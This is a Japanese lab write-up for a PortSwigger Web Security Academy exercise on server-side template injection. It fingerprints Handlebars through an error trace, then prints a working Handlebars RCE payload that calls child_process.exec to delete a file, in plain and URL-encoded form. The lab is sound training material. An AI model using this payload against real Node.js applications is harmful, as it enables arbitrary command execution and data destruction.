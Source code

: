 # 文書化されたエクスプロイトを使用した未知の言語でのサーバー側テンプレート インジェクション

以下のハッキングラボを実施します  
https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-in-an-unknown-language-with-a-documented-exploit  
このラボはサーバー側のテンプレート インジェクションに対して脆弱です。

- 1. BurpSuite を起動して、Proxy タブからブラウザを立ち上げます
- 2. ブラウザからハッキングラボにアクセスします
- 3. 製品ページにアクセスすると在庫がない製品の場合はメッセージが表示されます
     ![1](https://github.com/pea-sys/web-security-experiments/assets/49807271/c86b92ab-ea53-4e42-a708-0d303a095302)

* 4. ファズ文字列を url の message にセットします

```
https://0a64009d037c507a802a80e8002100fd.web-security-academy.net/?message=${{%3C%[%%27%22}}%\
```

以下のエラーメッセージが表示されます

```
Internal Server Error
/opt/node-v19.8.1-linux-x64/lib/node_modules/handlebars/dist/cjs/handlebars/compiler/parser.js:267 throw new Error(str); ^ Error: Parse error on line 1: ${{<%[%'"}}%\ ---^ Expecting 'ID', 'STRING', 'NUMBER', 'BOOLEAN', 'UNDEFINED', 'NULL', 'DATA', got 'INVALID' at Parser.parseError (/opt/node-v19.8.1-linux-x64/lib/node_modules/handlebars/dist/cjs/handlebars/compiler/parser.js:267:19) at Parser.parse (/opt/node-v19.8.1-linux-x64/lib/node_modules/handlebars/dist/cjs/handlebars/compiler/parser.js:336:30) at HandlebarsEnvironment.parse (/opt/node-v19.8.1-linux-x64/lib/node_modules/handlebars/dist/cjs/handlebars/compiler/base.js:46:43) at compileInput (/opt/node-v19.8.1-linux-x64/lib/node_modules/handlebars/dist/cjs/handlebars/compiler/compiler.js:515:19) at ret (/opt/node-v19.8.1-linux-x64/lib/node_modules/handlebars/dist/cjs/handlebars/compiler/compiler.js:524:18) at [eval]:5:13 at Script.runInThisContext (node:vm:128:12) at Object.runInThisContext (node:vm:306:38) at node:internal/process/execution:83:21 at [eval]-wrapper:6:24 Node.js v19.8.1
```

handlebars を使用していることが分かりました

- 5. handlebars の脆弱性を調べます。
     ここらへんが参考になりそうです。

http://mahmoudsec.blogspot.com/2019/04/handlebars-template-injection-and-rce.html

https://hackerone.com/reports/423541

- 6. ファイル削除するために以下のコードを url に埋め込みます

```js
{{#with "s" as |string|}}
    {{#with "e"}}
        {{#with split as |conslist|}}
            {{this.pop}}
            {{this.push (lookup string.sub "constructor")}}
            {{this.pop}}
            {{#with string.split as |codelist|}}
                {{this.pop}}
                {{this.push "return require('child_process').exec('rm /home/carlos/morale.txt');"}}
                {{this.pop}}
                {{#each conslist}}
                    {{#with (string.sub.apply 0 codelist)}}
                        {{this}}
                    {{/with}}
                {{/each}}
            {{/with}}
        {{/with}}
    {{/with}}
{{/with}}
```

- 7. url エンコーディングしてアクセスすると、ユーザーが削除できます

```
https://0a64009d037c507a802a80e8002100fd.web-security-academy.net/?message=%7b%7b%23%77%69%74%68%20%22%73%22%20%61%73%20%7c%73%74%72%69%6e%67%7c%7d%7d%0d%0a%20%20%7b%7b%23%77%69%74%68%20%22%65%22%7d%7d%0d%0a%20%20%20%20%7b%7b%23%77%69%74%68%20%73%70%6c%69%74%20%61%73%20%7c%63%6f%6e%73%6c%69%73%74%7c%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%28%6c%6f%6f%6b%75%70%20%73%74%72%69%6e%67%2e%73%75%62%20%22%63%6f%6e%73%74%72%75%63%74%6f%72%22%29%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%73%74%72%69%6e%67%2e%73%70%6c%69%74%20%61%73%20%7c%63%6f%64%65%6c%69%73%74%7c%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%22%72%65%74%75%72%6e%20%72%65%71%75%69%72%65%28%27%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%27%29%2e%65%78%65%63%28%27%72%6d%20%2f%68%6f%6d%65%2f%63%61%72%6c%6f%73%2f%6d%6f%72%61%6c%65%2e%74%78%74%27%29%3b%22%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%23%65%61%63%68%20%63%6f%6e%73%6c%69%73%74%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%28%73%74%72%69%6e%67%2e%73%75%62%2e%61%70%70%6c%79%20%30%20%63%6f%64%65%6c%69%73%74%29%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%2f%65%61%63%68%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%7b%7b%2f%77%69%74%68%7d%7d
```
